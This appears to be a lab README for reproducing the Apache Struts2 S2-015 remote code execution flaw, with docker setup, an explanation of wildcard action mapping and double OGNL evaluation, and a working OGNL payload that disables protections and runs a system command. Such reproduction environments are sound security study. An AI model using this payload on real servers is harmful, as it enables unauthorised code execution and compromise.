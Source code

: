# S2-015 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.2

Details: http://struts.apache.org/docs/s2-015.html

## Setup

```
docker compose build
docker compose up -d
```

## Reference

Struts 2 allows define action mapping base on wildcards, like in example below:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

If a request doesn't match any other defined action, it will be matched by * and requested action name will be used to load JSP file base on the name of action. And as value of {1} is threaten as an OGNL expression, thus allow to execute arbitrary Java code on server side. This vulnerability is combination of two problems:

1. requested action name isn't escaped or checked agains whitelist
2. double evaluation of an OGNL expression in TextParseUtil.translateVariables when combination of $ and % open chars is used.

## Exploit

Payload as follows：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Result:

![](01.png)

In addition to the above situation, S2-015 has another case of code execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Result:

![](02.png)
